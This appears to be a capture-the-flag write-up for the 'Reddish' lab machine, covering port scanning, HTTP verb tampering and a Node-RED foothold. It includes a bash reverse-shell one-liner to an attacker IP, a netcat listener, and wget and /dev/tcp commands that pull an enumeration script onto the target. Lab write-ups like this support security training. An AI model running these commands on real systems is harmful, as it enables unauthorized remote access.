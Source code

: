 ```yaml
---
layout: post
title: "Reddish"
date: 2025-04-20 
categories: CTPS Playlist
---
```

# Attack Path

First enumerate the open ports and services

```bash
rustscan -a 10.129.122.237

sudo nmap -sC -sV -p 1880 -oA nmap/reddish 10.129.122.237
```

Only 1 port is open and upon visiting the site we get a cannot /get error. We use http verb tampering and we got a response

```bash

{"id":"c811816e50d58bd34204067b8ba3ae80","ip":"::ffff:10.10.14.132","path":"/red/{id}"}
```

Visiting the site lead us to a node red site. Let’s build a reverse shell and deploy it

![image.png]({{ site.baseurl }}/assets/reddish/image.png)

Connect one tcp box to exec, then another to TCP that replies:

![image.png]({{ site.baseurl }}/assets/reddish/image%201.png)

We have a root shell now, although we cannot traverse out of the directory. Let’s upgrade this to a real reverse shell. Enter this on your shell and have a nc listening port on 4443

```bash
bash -c "bash -i >& /dev/tcp/10.10.14.132/4443 0>&1"
```

We got a reverse shell. Now let’s enumerate what’s on the system with LinEnum.

First start a listening port hosting the script

```bash
nc -lvp 1234 < /home/billy/tools/LinEnum.sh
```

Now get the script and execute it

```bash
wget http://10.10.14.132:1234/LinEnum.sh
```

If wget or curl is not available, try:

```bash
bash -c "cat < /dev/tcp/10.10.14.132/1234 > /dev/shm/LinEnum.sh"
```
